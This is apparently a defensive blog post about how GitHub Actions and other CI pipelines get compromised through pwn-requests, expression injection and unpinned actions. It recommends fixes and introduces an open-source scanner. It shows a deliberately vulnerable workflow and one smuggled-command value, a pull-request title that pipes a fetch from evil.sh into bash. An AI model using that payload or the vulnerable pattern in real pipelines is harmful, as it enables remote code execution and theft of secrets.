



# Anatomy of a Pipeline Hack: How One Line of YAML Hands Attackers Your Secrets

Your CI/CD pipeline is the most over-privileged machine in your company that nobody watches. It holds your deploy keys, your cloud tokens, and your signing secrets — and several times a day, it runs code written by strangers on the internet. Get one line of configuration wrong and that combination stops being a convenience and becomes a skeleton key.

> **For everyone (non-technical version):** A CI/CD pipeline is the robot that builds and ships your software every time someone proposes a change. To do its job, the robot is trusted with the company's most sensitive passwords. The danger: on many projects, *anyone on the internet* can propose a change — and if the robot is configured carelessly, it will run the stranger's instructions *while holding those passwords*. This post shows exactly how that goes wrong, and how a scanner catches it before it ships.

> **TL;DR**
> - CI pipelines combine three dangerous ingredients: **secrets**, **write access**, and **untrusted pull-request code**.
> - The classic failure — the *pwn-request* — is a workflow that runs on `pull_request_target` **and** checks out the pull request's code. That hands attacker-controlled code your secrets.
> - A second failure — *expression injection* — pastes an attacker-controlled string (like a PR title) straight into a shell command.
> - The same misconfiguration is far more dangerous when attacker input can reach it. That context is what separates a real risk from a harmless lint warning.
> - I built **[Portcullis](https://github.com/<you>/portcullis)**, an open-source scanner that catches these statically, across GitHub Actions, GitLab CI, and Jenkins.

## Why this matters

Software supply-chain attacks — compromising the build process instead of the finished product — have moved from theoretical to routine. Attackers worked out something defenders were slow to internalize: you don't need to break into production if you can break into the thing that *deploys* to production. The pipeline has the keys, and it's often the softest target in the whole organization.

The uncomfortable part is that most pipeline compromises aren't exotic. They're one careless line in a YAML file that a reviewer skimmed past. Let's look at the exact lines.

## The core idea: three ingredients that should never mix

A pipeline job becomes dangerous when three things overlap on the same job:



Individually, each ingredient is fine. Secrets are necessary. Write access is necessary. Accepting pull requests from outsiders is the whole point of open source. The compromise happens only when all three land in the same job — and CI systems make that surprisingly easy to do by accident.

**Analogy:** Think of your pipeline as a bank teller. It's fine for the teller to have keys to the vault. It's fine for the teller to help walk-in customers. It becomes a robbery when a walk-in customer is allowed to *write the teller's instructions* while the vault is open. That's a pwn-request.

## How it actually works

### Failure #1 — the pwn-request

On GitHub, the `pull_request` trigger runs a fork's code but **withholds your secrets** — safe by design. So maintainers who need secrets during PR checks often reach for `pull_request_target` instead, which *does* provide secrets. The catch: `pull_request_target` is meant to run *your* code, not the PR's. The moment you also check out the pull request's code, you've handed the attacker everything.

Here's the vulnerable shape (payload defanged to a harmless `echo` — this is from Portcullis's own inert test fixtures):

```yaml
on: pull_request_target        # ← runs WITH your secrets
permissions: write-all          # ← ...and full write access
jobs:
  triage:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}   # ← checks out ATTACKER code
      - run: ./scripts/build.sh    # ← now runs it, secrets in the environment
```

A real attacker replaces `build.sh` in their fork with code that reads `$GITHUB_TOKEN` or your cloud secret and sends it to a server they control. Their PR never has to be merged — merely *opening* it runs the code.



[VISUAL: the pwn-request flow — see `images/pwn-request-flow.svg`]

### Failure #2 — expression injection

The second classic is subtler. CI systems let you drop dynamic values into scripts with template syntax like `${{ ... }}`. Feels convenient. But some of those values are attacker-controlled — a pull request's **title**, an issue **body**, a branch **name** — and the template is expanded *before* the shell parses the line. So the attacker isn't supplying data; they're supplying *code*.

```yaml
# UNSAFE — the PR title is pasted into the shell command
- run: echo "Building PR titled ${{ github.event.pull_request.title }}"
```

Name your pull request something like `"; curl evil.sh | bash; echo "` and you've turned a harmless `echo` into command execution. The fix is boringly simple — route the value through an environment variable so the shell treats it as *data*, never as *command text*:

```yaml
# SAFE — the shell receives the title as a plain string
- env:
    TITLE: ${{ github.event.pull_request.title }}
  run: echo "Building PR titled $TITLE"
```

> **The one insight to remember:** interpolating trusted values (`github.sha`, `github.repository`) is fine. Interpolating attacker-controlled values (`*.title`, `*.body`, `*.head_ref`) directly into a shell line is remote code execution waiting to happen. The safe pattern is always: *route it through `env:` and quote it.*

### Failure #3 — the supply-chain pin

Even without untrusted PRs, pipelines quietly trust code they don't control. When you write `uses: some-org/some-action@v3`, that `@v3` is a **movable label**, not a fixed version. Whoever controls `some-org` — or anyone who compromises it — can point `v3` at new code tomorrow, and your pipeline will run it without you changing a thing.



Pinning to a full commit SHA removes the hijack path. It costs you automatic updates — a real tradeoff, which an honest tool should *state* rather than pretend away.

## Defenses that actually work

Do these in order — the first two close the most dangerous holes:

1. **Never run untrusted PR code with secrets.** Keep `pull_request_target` jobs from checking out PR-head refs. If you must process PR code, do it under plain `pull_request` (no secrets) with least-privilege permissions.
2. **Route every dynamic value through `env:`.** Never interpolate `${{ ... }}` straight into a `run:` line. This one habit kills expression injection.
3. **Set explicit least-privilege `permissions:`.** Start from `contents: read` and widen only what a specific job needs. Delete `write-all`.
4. **Pin third-party actions and images to SHAs/digests**, and use a bot to keep them updated.
5. **Scan automatically, and gate the merge.** Humans skim YAML; scanners don't.

That last point is why I built a tool.

## Meet Portcullis

[Portcullis](https://github.com/<you>/portcullis) is an open-source, offline, static scanner that reads your pipeline files and flags exactly the patterns above — across **GitHub Actions, GitLab CI, and Jenkins** through one shared model. It never executes your pipeline and never touches the network.

Its distinguishing idea is **context**: a finding inside a job that an attacker can reach is escalated one severity level, because the same mistake is genuinely more dangerous there. That keeps the noise down — hygiene stays hygiene, real incidents rise to the top.

[SCREENSHOT: terminal-scan — `portcullis scan tests/fixtures/github --format all` showing the score and top P0 finding]

[SCREENSHOT: html-report — the self-contained HTML report's score band and findings table]

You can run it as a CI gate that fails the build when a critical issue appears:

```bash
pip install portcullis-scanner
portcullis scan . --format sarif --fail-on P0
```

[SCREENSHOT: ci-gate — the --fail-on P0 run exiting with code 1]

## Key takeaways

- **Treat your pipeline as production.** It has production's keys and more attack surface.
- **Assume any `${{ ... }}` in a `run:` block is a bug** until you've proven the value is trusted.
- **Split trust:** untrusted PR code and secrets must never share a job.
- **Pin what you don't control** to immutable SHAs and digests.
- **Automate the check** — add a scanner to CI and gate merges on it.
- **Demand honesty from your tools:** confidence levels and stated tradeoffs beat a wall of red.

## Further reading

- [Portcullis on GitHub](https://github.com/<you>/portcullis) — the scanner from this post, with an inert-but-vulnerable fixture suite you can learn from.
- [zizmor](https://docs.zizmor.sh/audits/) — an excellent GitHub-Actions-focused scanner with a large audit catalog.
- [ARGUS: Staged Static Taint Analysis of GitHub Workflows (USENIX Security 2023)](https://www.usenix.org/conference/usenixsecurity23/presentation/muralee) — the research that maps the injection problem at scale.
- [GitHub's own security hardening guide for Actions](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions) — the vendor's canonical advice.
- [poutine](https://github.com/boostsecurityio/poutine) — a build-pipeline scanner covering GitHub and GitLab.
